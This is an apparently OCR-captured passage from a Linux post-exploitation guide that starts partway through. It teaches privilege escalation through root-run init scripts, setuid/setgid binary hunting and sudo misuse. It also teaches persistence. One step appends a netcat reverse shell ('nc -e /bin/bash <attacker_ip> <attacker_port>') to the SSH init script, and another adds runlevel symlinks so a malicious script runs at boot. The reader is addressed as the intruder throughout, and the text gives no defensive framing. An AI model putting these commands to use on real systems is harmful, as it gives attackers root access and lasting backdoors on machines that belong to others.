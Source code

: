 bash
Copy code
sudo /etc/init.d/apache2 restart
If the script is executed as root, it will run the reverse shell, giving you a remote shell with root privileges.

Hijack a Setuid or Setgid Binary: If a service or binary has setuid/setgid permissions, you might be able to exploit this to execute commands as root. For example, if a service script calls a vulnerable or misconfigured binary with elevated privileges, you can hijack it.

To identify vulnerable binaries:

bash
Copy code
find / -perm -4000 -o -perm -2000 -type f
If the binary is exploitable, you could potentially inject a payload that escalates your privileges.

Use Sudo Misconfigurations: If you have any limited sudo privileges, you could run commands with root privileges. For example:

bash
Copy code
sudo /bin/bash
This would give you a root shell.

# #### 4. Persistence via Init Scripts
Maintaining access to the system is a key aspect of post-exploitation. After compromising a system, you might want to ensure that you can regain access after a reboot or service restart.

Techniques for Persistence:
Modify Init Scripts: You can modify or add your own scripts in /etc/init.d/ to execute malicious commands or a reverse shell on every boot or when the service starts. For example, you could add a line to /etc/init.d/sshd to run a reverse shell whenever SSH starts:

bash
Copy code
echo "nc -e /bin/bash <attacker_ip> <attacker_port>" >> /etc/init.d/sshd
Alternatively, add a malicious script to be executed at boot time:

bash
Copy code
ln -s /etc/init.d/malicious_script /etc/rc3.d/S99malicious
Manipulate Runlevel Symlinks: The init system uses symlinks in directories like /etc/rc3.d/, /etc/rc5.d/, etc., to control which services are started at boot. By adding a symlink to a malicious script (or your modified init script) in these directories, you can ensure that your backdoor is executed at startup:

bash
Copy code
ln -s /etc/init.d/malicious_script /etc/rc3.d/S99malicious
Hijack Other Service Scripts: You can also modify other critical service scripts, such as SSH or network services, to launch malicious code or maintain persistence by manipulating their startup routines.
